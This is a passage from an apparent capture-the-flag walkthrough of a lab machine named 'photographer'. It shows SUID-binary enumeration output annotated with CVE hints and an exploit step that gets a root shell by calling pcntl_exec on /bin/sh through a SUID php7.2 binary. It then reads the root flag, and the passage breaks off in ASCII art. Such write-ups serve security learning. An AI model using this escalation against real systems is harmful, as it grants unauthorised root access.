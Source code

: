 											 ╚═══════════════════╝
	╔══════════╣ SUID - Check easy privesc, exploits and write perms
	╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
	-rwsr-xr-- 1 root messagebus 42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
	-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
	-rwsr-sr-x 1 root root 11K Oct 25  2018 /usr/lib/xorg/Xorg.wrap
	-rwsr-xr-x 1 root root 109K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
	-rwsr-xr-x 1 root root 419K Mar  4  2019 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 19K Mar 18  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
	-rwsr-xr-x 1 root root 15K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
	-rwsr-xr-- 1 root dip 386K Feb 11  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
	-rwsr-xr-x 1 root root 23K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
	-rwsr-xr-x 1 root root 53K May 16  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
	-rwsr-xr-x 1 root root 39K May 16  2017 /usr/bin/newgrp  --->  HP-UX_10.20
	-rwsr-xr-x 1 root root 74K May 16  2017 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 4.7M Jul  9  2020 /usr/bin/php7.2 (Unknown SUID binary)
	-rwsr-xr-x 1 root root 134K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
	-rwsr-xr-x 1 root root 40K May 16  2017 /usr/bin/chsh
	-rwsr-xr-x 1 root root 49K May 16  2017 /usr/bin/chfn  --->  SuSE_9.3/10
	-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
	-rwsr-xr-x 1 root root 40K May 16  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
	-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 27K May 16  2018 /bin/umount  --->  BSD/Linux(08-1996)
	-rwsr-xr-x 1 root root 40K May 16  2017 /bin/su
	```
	- `/usr/bin/php7.2`, has a [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid) entry
6. Exploit
	```
	www-data@photographer:/tmp$ CMD="/bin/sh"
	www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
	```
	![](images/Pasted%20image%2020220203175424.png)
7. Root flag
	```
	rootbash-4.3# cd /root
	rootbash-4.3# ls
	proof.txt
	rootbash-4.3# cat proof.txt 

									.:/://::::///:-`                                
								-/++:+`:--:o:  oo.-/+/:`                            
							 -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
						   :o:``oyo/o`. `      ```/-so:+--+/`                       
						 -o:-`yh//.                 `./ys/-.o/                      
						++.-ys/:/y-                  /s-:/+/:/o`                    
					   o/ :yo-:hNN                   .MNs./+o--s`                   
					  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
					 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
					 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
					 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
					 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
					 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
